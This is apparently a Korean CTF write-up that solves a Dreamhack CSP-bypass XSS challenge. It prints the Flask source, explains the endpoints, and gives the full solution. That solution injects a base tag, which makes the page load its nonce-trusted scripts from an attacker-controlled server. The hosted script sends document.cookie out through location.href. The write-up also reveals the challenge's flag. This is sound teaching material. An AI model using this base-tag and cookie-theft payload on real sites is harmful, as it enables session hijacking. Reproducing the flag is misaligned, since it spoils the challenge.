




```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", param=param, nonce=nonce)


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)


app.run(host="0.0.0.0", port=8000)

```
참도로 **엔드포인트 분석, 주요 함수 분석** 은 이전 문제인 CSP Bypass 와 동일함  

## 엔드포인트 분석  
1. '/'  
-> 메인페이지 html 파일 render
2. '/vuln'  
-> param에서 특정 값을 넣어서 나오는 결과값을 html 파일로 return 한다.  
3. '/flag'  
-> param에서 특정 값을 얻어서 **check_xss** 에 넣어서 **xss를 필터링** 한다. 또한 **nonce** 값도 확인한다.  
4. '/memo'  
-> memo에서 특정 값을 작성한다.  
## 주요 함수 분석  
1. check_xss  
-> 입력받은 param을 이용해 URL을 만들어서 접근함  
2. add_header  
-> **@app.after_request** 를 통해 매 http 요청이 끝나고 브라우저에 응답하기 전에 실행하는 함수이고, 응답 헤더에 **CSP에 대한 내용과 nonce** 를 추가한다.  
(https://blusky10.tistory.com/entry/FlaskHTTP-%EC%9A%94%EC%B2%AD%EC%97%90-%EB%8C%80%ED%95%9C-%ED%95%B8%EB%93%A4%EB%9F%AC)  

## 문제 모습  
이전 문제인 **CSP Bypass** 와 동일함  
  

## 문제 해결  
이전 문제처럼 **add_header** 를 보고 풀면된다.  
여기서 이전 문제에서 사용한 코드를 사용해보고자 했다.  
```html
<script src="/vuln?param=alert(1)"></script>
```
vuln 페이지에서 실행하면, 아무 일도 일어나지 않는다.  
그 이유는 이전 문제는 vuln에서 **param의 결과** 를 return 했다.  
그러나 이번 문제는 vuln에서 **html 문서** 를 return 하기 때문에 위의 코드가 실행되지 않는 것이다.  
(https://dreamhack.io/forum/qna/4700/)  
  

위의 에러처럼 return 한 html 파일의 맨 윗줄인
```html
<!DOCTYPE html>
```
를 자바스크립트로 해석하는 과정에서 에러가 발생한 것이다.  

그래서 다른 방식은 고안해야 한다.  
이 때, 이 문제의 중요한점은 바로 **base-uri** 에 대한 제한을 걸지 않았다는 것이다.  
따라서 **base** 태그를 이용해 공격할 수 있다.  
(https://www.tcpschool.com/html-tags/base)
**base** 태그는 현재 문서의 모든 상대 주소의 기본 주소를 지정함  
```html
<!-- 강의자료에 있는 코드 -->
<base href="https://malice.test">
<script src="/jquery.js" nonce=NONCE></script>
<!-- https://malice.test/jquery.js 로 해석한다. -->
```

이 문제를 풀기 위해 개인서버를 사용해야 한다고 한다.  
그래서 github를 이용했다.  
(https://codingslime.tistory.com/24)
(https://docs.github.com/ko/pages/quickstart)

```javascript
location.href = "http://host3.dreamhack.games:20696/memo?memo=" + document.cookie
```
개인 서버를 만들고 test.js 라는 파일로 다음과 같은 코드를 적었다.  

그리고 base 태그를 이용해 저 test.js를 실행하기 위해 다음과 같은 코드를 vuln에 넣었다.  
```html
<base href="https://SeoDongHyun03.github.io"><script src="/test.js"></script>
```
위의 코드를 적었는데 다음과 같은 오류메시지가 나왔다.  
  
결론적으로 test.js가 같은 출처에 없기도 하고 nonce 값도 없기 때문에 막은 것이다.  

여기서 nonce 값을 예측하는 것은 불가능하기 때문에 생각한 것은 vuln 페이지에서 사용하는 script는 2가지가 있었다.  

```html
<!-- Bootstrap core JavaScript -->
<script src="/static/js/jquery.min.js" nonce=9fd7da9a92141712455011c527a41dd3></script>
<script src="/static/js/bootstrap.min.js" nonce=9fd7da9a92141712455011c527a41dd3></script> 
```
위의 **jquery.min.js, bootstrap.min.js** 를 가져오는 것이었다.  

그렇다면, test.js 대신에 위의 파일명을 사용하면 될 것 같다고 생각했다.  
(저 상대경로에 있는 파일은 nonce가 이미 html 파일에 있기 때문에 바로 실행할 수 있다고 생각했다.)  

```html
<base href="https://SeoDongHyun03.github.io">
```
위와 같이 작성하면, **base** 를 이용해 개인 서버로 연결해서 위에서 적은 **jquery.min.js 를 실행** 한다.  

그래서 위의 코드를 flag에 넣었는데 계속 **wrong** 이 나왔다.  
그래서 찾아봤을 때 jquery.min.js 의 코드를 다음과 같이 고쳐야 한다고 한다.  
```javascript
location.href = "http://127.0.0.1:8000/memo?memo=" + document.cookie;
```
결론적으로 호스트 부분을 **127.0.0.1** 으로 바꾼 것이다.  

  

따라서 정답은 **DH{833a8a65e3907796ccc447ff75e1dfe6}** 이다.